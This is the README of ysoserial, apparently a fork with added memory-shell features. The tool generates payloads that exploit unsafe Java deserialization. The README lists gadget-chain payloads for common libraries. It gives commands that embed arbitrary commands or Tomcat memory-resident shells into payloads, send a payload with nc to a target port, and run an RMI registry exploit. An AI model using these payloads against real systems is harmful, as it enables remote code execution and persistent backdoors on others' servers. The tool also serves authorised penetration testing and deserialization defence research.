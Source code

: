 
# ysoserial

[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Travis Build Status](https://api.travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
三月 25, 2022 2:59:49 下午 org.reflections.Reflections scan
信息: Reflections took 63 ms to scan 1 urls, producing 19 keys and 159 values
     Payload               Authors                                Dependencies
     -------               -------                                ------------
     AspectJWeaver         @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2
     BeanShell1            @pwntester, @cschneider4711            bsh:2.0b5
     C3P0                  @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Click1                @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0
     Clojure               @JackOfMostTrades                      clojure:1.8.0
     CommonsBeanutils1     @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsBeanutils1NOCC @Y4er                                  commons-beanutils:1.9.2
     CommonsCollections1   @frohoff                               commons-collections:3.1
     CommonsCollections2   @frohoff                               commons-collections4:4.0
     CommonsCollections3   @frohoff                               commons-collections:3.1
     CommonsCollections4   @frohoff                               commons-collections4:4.0
     CommonsCollections5   @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6   @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7   @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     FileUpload1           @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1               @frohoff                               groovy:2.3.9
     Hibernate1            @mbechler
     Hibernate2            @mbechler
     JBossInterceptors1    @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient            @mbechler
     JRMPListener          @mbechler
     JSON1                 @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1        @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21               @frohoff
     Jython1               @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1         @matthias_kaiser                       js:1.7R2
     MozillaRhino2         @_tint0                                js:1.7R2
     Myfaces1              @mbechler
     Myfaces2              @mbechler
     ROME                  @mbechler                              rome:1.0
     Spring1               @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2               @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS                @gebl
     Vaadin1               @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1               @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

## 内存马相关

着重修改`ysoserial.payloads.util.Gadgets.createTemplatesImpl`使其可以通过引入自定义class的形式来执行命令、内存马、反序列化回显。

以CommonsBeanutils1NOCC为例：

```shell
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:TomcatServletMemShell"   # TomcatServletMemShell
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:TomcatCmdEcho"           # TomcatCmdEcho
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:TomcatFilterMemShell"    # TomcatFilterMemShell  适用于tomcat7-9
java -jar ysoserial.jar CommonsBeanutils1NOCC "CMD:calc"                      # CommandTemplate
java -jar ysoserial.jar CommonsBeanutils1NOCC "FILE:e:\Calc.class"            # ClassLoaderTemplate
```

shell连接使用请查看指定类。

以下受到Gadgets.createTemplatesImpl影响的gadget均需要如上方式传递参数：

1. Click1
2. CommonsBeanutils1
3. CommonsBeanutils1NOCC
4. CommonsCollections2
5. CommonsCollections3
6. CommonsCollections4
7. Hibernate1
8. JavassistWeld1
9. JBossInterceptors1
10. Jdk7u21
11. JSON1
12. MozillaRhino1
13. MozillaRhino2
14. ROME
15. Spring1
16. Spring2
17. Vaadin1


## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from
[JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

Note that GitHub-hosted releases were removed in compliance with the
[GitHub Community Guidelines](
    https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
